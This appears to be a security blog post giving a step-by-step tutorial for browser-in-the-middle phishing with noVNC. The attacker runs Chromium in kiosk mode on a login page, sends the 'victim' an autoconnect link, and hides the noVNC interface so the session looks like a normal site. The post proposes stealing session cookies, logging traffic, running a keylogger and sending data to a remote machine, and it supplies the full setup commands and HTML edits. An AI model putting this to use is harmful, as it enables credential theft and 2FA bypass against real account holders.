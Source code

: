 ```yaml
---
layout: post
title: Exploiting noVNC for 2FA Bypass
date: 2025-02-07
categories: [Exploits, noVNC]
tags: [Exploits, noVNC, 2FA Bypass]
permalink: /posts/Exploiting-noVNC-for-2FA-Bypass/
image:  
  path: /assets/img/thumbnails/No-VNC.png
---
```




# **Using noVNC for Credential Acquisition and Bypassing 2FA**

**noVNC** is both a **JavaScript library for VNC clients** and an application built on top of this library. Compatible with **any modern browser**, including mobile versions for iOS and Android, noVNC allows the web browser to function as a **VNC client**, enabling **remote access to a machine**.

So, how can we use noVNC to **acquire credentials** and **bypass 2FA**? Here's the process:

1. Set up a server with noVNC.
2. Start **Chromium** (or any other browser) in **Kiosk mode**.
3. Direct it to the desired website for user authentication (e.g., `accounts.google.com`).
4. Send the link to the target user. When they click the URL, they will access the **VNC session** without realizing it.
5. Since Chromium is configured in **Kiosk mode**, the user experience will appear as a normal web page.

---

## **Exploitation Possibilities**

The exploitation possibilities of this method are **vast**:

- **Inject JS** into the browser.
- Use an **HTTP proxy** connected to the browser to log all activities.
- **Terminate the VNC session** after user authentication.
- Capture the **browser session token** (Right-click > Inspect > Application > Cookies) after the user disconnects.
- Run a **background keylogger**.
- Or **get creative** and find other approaches (remember, the server is yours).

---

## **noVNC Setup and Demonstration**

### **1. Deploy a Kali Linux Instance**

Use any **cloud service provider** or deploy locally to set up a Linux machine. I will use **Kali Linux** for this demonstration because I prefer it, but you can choose any other Linux distribution you are comfortable with.

---

### **2. Install TigerVNC**

First, you need to install **VNC software**. I tested two options: **X11vnc** and **TigerVNC**. After several tests, I chose to use **TigerVNC**.

```shell
sudo apt update
sudo apt install tigervnc-standalone-server tigervnc-xorg-extension tigervnc-viewer
```

---

### **3. Set Up a VNC Password**

```shell
vncpasswd
```

On Kali Linux, I didn’t need to create the `xstartup` file, but if you encounter any errors, you can configure it manually.

```shell
nano ~/.vnc/xstartup
```

Paste or write the following:

```bash
#!/bin/sh
xrdb "$HOME/.Xresources"
xsetroot -solid grey
x-terminal-emulator -geometry 80x24+10+10 -ls -title "$VNCDESKTOP Desktop" &
x-window-manager &
# Fix to make GNOME work
export XKL_XMODMAP_DISABLE=1
/etc/X11/Xsession
```

Add execution permissions:

```shell
chmod +x ~/.vnc/xstartup
```

---

### **4. Restart the VNC Server**

Restart the VNC server, choosing the **screen size settings** according to your needs. noVNC automatically adjusts to the browser's screen size, but do your own testing.

```shell
vncserver -depth 32 -geometry 1920x1080
```

---

### **5. Download and Run noVNC**

```shell
git clone https://github.com/novnc/noVNC.git
```

OR

```shell
apt install novnc
```

Now run noVNC **locally** or **publicly**. Here are the commands:

- **Check the VNC server port:**

```shell
vncserver -list
```

Example: `5901`, `5902`, `5903`, etc.

- **Run noVNC:**

```shell
./noVNC/utils/novnc_proxy --vnc localhost:5901
```

- **Set up an SSH tunnel:**

```shell
ssh -L 6080:127.0.0.1:6080 root@server
```

- **Run publicly using port 8081:**

```shell
ufw allow http
./noVNC/utils/novnc_proxy --vnc 0.0.0.0:5901 --listen 8081
```

---

### **6. Access VNC and Run the Browser in Kiosk Mode**

Access your VNC and run the browser in **Kiosk mode**. I used **Chromium**, but you can use whatever suits your needs.

```shell
chromium --no-sandbox --app=https://gmail.com --kiosk
```

---

### **7. Send the URL to the "Victim" to Connect Automatically**

```shell
http://127.0.0.1:6080/vnc.html?autoconnect=true&password=YOUR-PASSWORD
```

The `autoconnect=true&password=VNCPASSWORD` will make the user authenticate automatically. If you want to rename the query parameter, you can modify the `vnc.html` file.

---

### **8. Modify the CSS to Remove Visual Elements**

noVNC displays a **custom loading page**, a **VNC control bar**, and some additional unnecessary visual elements that should be removed.

Open `vnc.html`, find the `divs` below, and add the CSS style shown.

```html
<!-- Hide unnecessary items -->
<div id="noVNC_control_bar_anchor" class="noVNC_vcenter" style="display:none;">
<div id="noVNC_status" style="display:none"></div>

<!-- Makes the loading page white -->
<div id="noVNC_transition" style="background-color:white;color:white">
```

---

## **Important Notes**

- **You are giving remote access to your machine!** It should not have anything valuable stored on it.
- Any logged data should likely be sent to a **remote machine**.
- **Do not use the root account.** Set up a restricted user account that uses the VNC service.
- Configure the **Kiosk mode** more restrictively.
